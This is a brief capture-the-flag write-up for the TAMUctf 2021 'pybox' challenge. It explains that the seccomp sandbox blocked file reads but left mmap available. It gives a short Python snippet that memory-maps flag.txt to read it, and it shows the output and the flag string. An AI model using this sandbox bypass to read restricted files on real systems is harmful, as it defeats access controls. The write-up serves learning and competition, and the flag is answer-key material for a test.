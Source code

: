 ```yaml
---
title: "TAMUctf 2021 pybox Solution"
slug: "pybox-writeup"
date: "2021-04-26 10:56:00.000000"
author_name: "Javantea"
author_email: "jvoss@altsci.com"
draft: false
toc: false
images:
---
```


TAMUctf 2021
[pybox](https://ctftime.org/task/15805) - 150 points

>    We spun up a server for you to execute your python code! For security reasons, we've disabled a few syscalls, but you can do all the computation you'd like!
[restricted_python/src/main.rs](https://shell.tamuctf.com/static/4ff379df6496923e8675b07c6fd6a6ef/restricted_python/src/main.rs)
>    `openssl s_client -connect tamuctf.com:443 -servername pybox -quiet`

This challenge was remarkably easy. They use [seccomp](https://en.wikipedia.org/wiki/Seccomp) to disable reading from a file. That's not nearly enough to stop a hacker from accessing a flag. They did not disable mmap, which is a pretty standard way to access a file. So standard in fact that Python has a built-in module for it. It's that useful. Below is the exploit. Yes is was that easy. I had to determine the length of the flag by trial and error because it wouldn't give you the flag if you asked for more than the file size.

```python
a = open('flag.txt','rb')
x = mmap.mmap(a.fileno(), 26, flags=mmap.MAP_PRIVATE)
print(x[:26])
.

b'gigem{m3m0ry_m4pp3d_f1l35}'
```

The flag is `gigem{m3m0ry_m4pp3d_f1l35}`

